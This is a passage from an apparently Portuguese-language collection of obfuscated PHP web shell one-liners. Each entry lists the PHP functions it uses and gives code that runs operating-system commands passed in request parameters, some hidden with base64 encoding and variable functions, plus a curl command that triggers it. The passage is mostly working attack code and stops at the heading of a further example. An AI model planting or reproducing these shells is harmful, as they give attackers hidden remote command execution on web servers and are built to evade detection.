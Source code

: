 Variáveis: ZWNobyhzaGVsbF9leGVjKCRfKSk7=echo(shell_exec($_));
**CODE:**

```
(error_reporting(0)).($_=$_REQUEST[0])
.($__=@create_function('$_',base64_decode("ZWNobyhzaGVsbF9leGVjKCRfKSk7"))).($__($_).exit);
```


Execução: curl -v 'http://localhost/shell.php?0=id'

**EXEMPLO 04**
Functions:

1. [ERROR_REPORTING](https://secure.php.net/manual/pt_BR/function.error-reporting.php)
2. [VARIABLE FUNCTIONS](http://php.net/manual/pt_BR/functions.variable-functions.php)
3. [EXIT](http://php.net/manual/pt_BR/function.exit.php)

Variáveis: $_GET[1]=Nome da function, $_GET[2]=comando que será executado
**CODE:**

```
(error_reporting(0).($_=@$_GET[1]).($_($_GET[2])).exit);
```

Execução: curl -v 'http://localhost/shell.php?1=system&2=id;uname' **EXEMPLO 05** Functions:

1. [ERROR_REPORTING](https://secure.php.net/manual/pt_BR/function.error-reporting.php)
2. [EXTRACT](http://php.net/manual/pt_BR/function.extract.php)
3. [GET_DEFINED_VARS](http://php.net/manual/pt_BR/function.get-defined-vars.php)
4. [VARIABLE FUNCTIONS](http://php.net/manual/pt_BR/functions.variable-functions.php)
5. [DEFINE](http://php.net/manual/pt_BR/function.define.php)
6. [EXIT](http://php.net/manual/pt_BR/function.exit.php)

Variáveis: $_REQUEST[1]=Nome da function, $_REQUEST[2]=comando que será executado **CODE:**

```
 (error_reporting(0)).(extract($_REQUEST, EXTR_PREFIX_ALL))
.($_=@get_defined_vars()['_REQUEST']).(define('_',$_[2])).(($_[1](_))).exit;
```

Execução: curl -v 'http://localhost/shell.php?1=system&2=id;uname'

```




```

**EXEMPLO 06**
Functions:

1. [ERROR_REPORTING](https://secure.php.net/manual/pt_BR/function.error-reporting.php)
2. [EXPLODE](http://php.net/manual/pt_BR/function.explode.php)
3. [BASE64_DECODE](http://php.net/manual/pt_BR/function.base64-decode.php)
4. [VARIABLE FUNCTIONS](http://php.net/manual/pt_BR/functions.variable-functions.php)
5. [EXIT](http://php.net/manual/pt_BR/function.exit.php)

Variáveis: SFRUUF9VU0VSX0FHRU5U=HTTP_USER_AGENT
**CODE:**
